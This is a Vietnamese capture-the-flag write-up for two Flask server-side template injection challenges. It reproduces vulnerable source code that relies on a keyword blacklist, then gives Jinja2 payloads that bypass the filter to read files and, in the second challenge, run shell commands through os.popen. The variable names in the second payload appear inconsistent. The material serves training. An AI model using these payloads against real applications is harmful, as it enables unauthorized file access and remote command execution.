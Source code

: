 # Web-vkl CTF
## vkl ssti1
### Dạng bài ssti1:
Source code:

```
from flask import Flask, render_template, render_template_string, request, abort
app = Flask(__name__)

@app.route("/")
def index():
    def filter(s):
        blacklist = ['class', 'attr', 'mro', 'base', 'request', 'session', 'add','+', 'config' , 'subclasses', 'cookies', 'headers','\'', '[', ']', '"', '{}']

        block = True
        for i in blacklist:
            if i in s.lower():
                block = False
                break
        return block
    if not request.args.get('name'):
        return open(__file__).read()
    elif filter(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'cut dcmm'
    template = '''

    <div >
        <p>Hello, %s</p>
    </div>
    <!--flag in /flag.txt-->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=9999)
```
Nhìn vào source bài này thì mình thấy rất nhiều từ cần thiết đã bị filter, nên khả thi nhất lúc này là sử dụng:

```{{url_for.__globals__.__builtins__.open("filename").read()}}```

Nhưng ở đây có một vấn đề là ở đây cả `'` và `"` đều bị filter nên chúng ta không thể truyền được filename vào, mấu chốt của
của bài này là chúng ta phải giải quyết được chỗ này.

Trước tiên xác nhận xem flag có ở trong `/flag.txt` như tác giả nói hay không

```
{{url_for.__globals__.os.__dict__}}
```

![](img1.png)

Sử dụng `listdir()` để xem các file hiện tại:

```{{url_for.__globals__.os.__dict__.listdir()}}```

![](img2.png)

Vậy tác giả đã lừa chúng ta flag thực sự không nằm trong `/flag.txt` mà là `flag.txt`

Khi chúng ta truyền chuỗi vào thì `('a','b','c')|join` sẽ tương đương với `'abc'`

Nên tới đây mình sẽ sử dụng `chr` để chuyển về kí tự ascii sau đó dùng `join` để có được một chuỗi truyền vào.

Vậy chuỗi chúng ta truyền vào sẽ là: 

`(chr(102),chr(108),chr(97),chr(103),chr(46),chr(116),chr(120),chr(116))|join`

Nhưng ở đây có một lưu ý là để sử dụng `chr` thì chúng ta phải gọi được built-in function `chr` ra trước:

`{% set chr=url_for.__globals__.__builtins__.chr %}`

Final payload:

```{% set chr=url_for.__globals__.__builtins__.chr %}{{url_for.__globals__.__builtins__.open((chr(102),chr(108),chr(97),chr(103),chr(46),chr(116),chr(120),chr(116))|join).read()}}```

### Flag: web-vkl{filter_is_not_enough}

## vkl ssti2
### Dạng bài: ssti
Source code:
```

from flask import Flask, render_template, render_template_string, request, abort
app = Flask(__name__)

@app.route("/")
def index():
    def filter(s):
        blacklist = ['class', 'builtins','attr', 'mro', 'base', 'request', 'session', 'add','+', 'config' , 'subclasses', 'cookies', 'headers','\'', '[', ']', '"', '{}']

        block = True
        for i in blacklist:
            if i in s.lower():
                block = False
                break
        return block
    if not request.args.get('name'):
        return open(__file__).read()
    elif filter(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'cut dcmm'
    template = '''

    <div >
        <p>Hello, %s</p>
    </div>
    <!-- -->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=9998)

```
Về cơ bản thì source code bài này giống với bài ssti 1 chỉ có một thay đổi là bị filter thêm chữ `builtins`.

Với bài này khi mình lên để viết writeup thì dường như server có vấn đề, mình không thể truyền param đi nên mình không ghi cụ thể chính xác được. 

Nhưng mình sẽ nói sơ về ý tưởng thực hiện:

Mình sử dụng payload để liệt kê ra tất cả các method và dễ dàng tìm chính xác vị trí của `request`
```
{% for i in url_for.__globals__ %}{{i}}{% endfor %}

```
Ví dụ vị trí của method là 7 thì mình sẽ sử dụng:

`{% set req=url_for.__globals__.pop((url_for.__globals__|list).__getitem__(7)) %}`

`getitem` được sử dụng cho list nên đó là lí do mình chuyển `url_for.__globals__` thành list.

Payload cuối cùng:

```
{%set a=url_for.__globals__.pop((url_for.__globals__|list).__getitem__(7)) %}{{url_for.__globals__.os.__dict__.popen(req.args.command).read()}}&command=cat /abc/flag.txt
```
Với bài này theo mình nhớ thì flag không nằm trong thư mục hiện tại, chuỗi mình truyền vào trong command chỉ là một ví dụ, các bạn có thể truyền v
các command thích hợp để tìm được vị trí của flag.


## End.
### Thank you for being here!
